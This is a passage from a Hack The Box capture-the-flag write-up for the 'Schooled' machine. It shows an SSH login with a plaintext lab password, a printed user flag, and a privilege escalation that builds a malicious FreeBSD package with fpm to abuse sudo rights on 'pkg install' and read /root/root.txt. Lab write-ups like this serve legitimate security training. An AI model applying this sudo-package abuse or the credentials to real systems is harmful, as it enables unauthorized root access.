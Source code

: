 CREDS = jamie:!QAZ2wsx

  [root:/git/htb/schooled]# ssh jamie@schooled.htb
    Password for jamie@Schooled: !QAZ2wsx
    ..
    jamie@Schooled:~ $ id
      uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)

    jamie@Schooled:~ $ cat user.txt
      7cb596a361cac653fbbc1c75665b5011


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As per usual we start with a 'sudo -l' hoping for a easy root.

  jamie@Schooled:~ $ sudo -l
    User jamie may run the following commands on Schooled:
        (ALL) NOPASSWD: /usr/sbin/pkg update
        (ALL) NOPASSWD: /usr/sbin/pkg install *

It is pretty obvious that we should install a package with sudo privs to get root.
Looking on gtfobins there's an entry about 'pkg', follow it and modify to get the contents of /root/root.txt.

  [root:/opt/htb/schooled]# gem install fpm
  [root:/git/htb/schooled]# TF=$(mktemp -d)                                                                                         (master✱)
  [root:/git/htb/schooled]# echo 'cat /root/root.txt' > $TF/x.sh                                                                    (master✱)
  [root:/git/htb/schooled]# fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF                                         (master✱)
    DEPRECATION NOTICE: XZ::StreamWriter#close will automatically close the wrapped IO in the future. Use #finish to prevent that.
    /var/lib/gems/2.7.0/gems/ruby-xz-0.2.3/lib/xz/stream_writer.rb:185:in `initialize'
    	/var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `new'
    	/var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `block in output'
    	/var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `open'
    	/var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `output'
    	/var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:487:in `execute'
    	/var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:68:in `run'
    	/var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:574:in `run'
    	/var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:133:in `run'
    	/var/lib/gems/2.7.0/gems/fpm-1.12.0/bin/fpm:7:in `<top (required)>'
    	/usr/local/bin/fpm:23:in `load'
    	/usr/local/bin/fpm:23:in `<main>'
    Created package {:path=>"x-1.0.txz"}
